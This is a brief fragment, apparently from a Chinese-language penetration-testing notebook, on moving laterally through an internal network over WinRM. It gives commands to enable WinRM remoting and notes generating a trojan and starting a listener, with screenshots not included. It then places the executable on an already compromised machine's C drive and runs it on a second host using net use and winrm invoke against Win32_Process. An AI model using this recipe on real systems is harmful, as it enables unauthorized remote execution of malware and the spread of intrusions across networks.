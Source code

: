 	>winrm quickconfig –q启动winrm
	或PS>Enable-PSRemoting -Force
	生成木马并启动监听
![image](/assets/Pentest_Note/master/img/446.png)
![image](/assets/Pentest_Note/master/img/447.png)

	放入已获得权限的机器C盘中
	内网另外机器中执行
	>net use \\192.168.0.115\c$
	>winrm invoke create wmicimv2/win32_process @{commandline="\\192.168.0.115\c\index.exe"}
